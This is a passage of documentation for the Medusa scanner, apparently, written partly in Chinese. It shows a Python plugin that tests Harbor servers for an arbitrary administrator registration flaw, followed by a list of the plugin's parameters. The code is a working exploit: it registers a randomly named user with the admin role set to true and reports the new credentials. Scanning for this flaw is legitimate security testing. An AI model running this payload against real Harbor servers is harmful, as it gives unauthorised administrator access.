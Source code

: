 ```python
        headers = {
            'User-Agent': RandomAgent,
            'Accept': 'application/json',
            "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
            "Accept-Encoding": "gzip, deflate",
            "Content-Type": "application/json",
        }
        rm = "MedusaTextPoc"+randoms().result(5)  # 获取随机数
        data= {
            "username": rm,
            "email": rm+"@qq.com",
            "realname": rm,
            "password": rm,
            "comment": rm,
            "has_admin_role": True
        }

        data = json.dumps(data)
        resp = requests.post(payload_url,data=data,headers=headers, proxies=proxies, timeout=6, verify=False)
        head = resp.headers.get("Location")
        code = resp.status_code
        if code == 201 and head.find("/api/users/")!=-1:
            Medusa = "{}存在Harbor任意管理员注册漏洞\r\n 验证数据:\r\n漏洞位置:{}\r\n账号:{}\r\n密码:{}\r\n注册账号数量:{}\r\n".format(url,
                                                                                                          payload_url,
                                                                                                          rm,rm,head)
            _t = VulnerabilityInfo(Medusa)
			VulnerabilityDetails(_t.info, url,**kwargs).Write()  # 传入url和扫描到的数据
            WriteFile().result(str(url),str(Medusa))#写入文件，url为目标文件名统一传入，Medusa为结果
    except Exception as e:
        _ = VulnerabilityInfo('').info.get('algroup')
        ErrorHandling().Outlier(e, _)
        _l = ErrorLog().Write(url, _)  # 调用写入类传入URL和错误插件名
```

##### 参数

- ###### Url
  - 扫描器传入的链接

- ###### RandomAgent
  - 扫描器传入的随机或者自定义的`User-Agent`

- ###### proxies=None
  - 扫描器的代理，默认是关闭的
  - 如果需要代理只需要传入参数即可
  
- ###### Token

  - 该参数在`3.4`插件模板中替换`UnixTimestamp`参数
